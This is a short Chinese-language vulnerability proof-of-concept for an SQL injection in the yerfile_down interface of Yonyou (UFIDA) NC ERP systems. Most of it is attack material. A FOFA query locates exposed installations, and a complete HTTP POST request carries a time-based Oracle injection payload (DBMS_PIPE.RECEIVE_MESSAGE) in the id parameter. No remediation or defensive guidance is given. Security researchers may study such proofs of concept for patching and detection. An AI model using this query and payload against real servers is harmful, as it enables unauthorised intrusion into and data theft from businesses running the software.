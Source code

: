 # 用友NC系统接口yerfile_down存在SQL注入漏洞
用友NC是用友网络科技股份有限公司研发的一款大型erp企业管理系统与电子商务平台。 用友NC yerfile存在SQL注入漏洞

## fofa

```javascript
app="用友-UFIDA-NC"
```

### 四、漏洞复现
```javascript
POST /portal/pt/yerfile/down/bill?pageId=login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Connection: close
 
id=1'+AND+4563=DBMS_PIPE.RECEIVE_MESSAGE(CHR(65),6)--
```



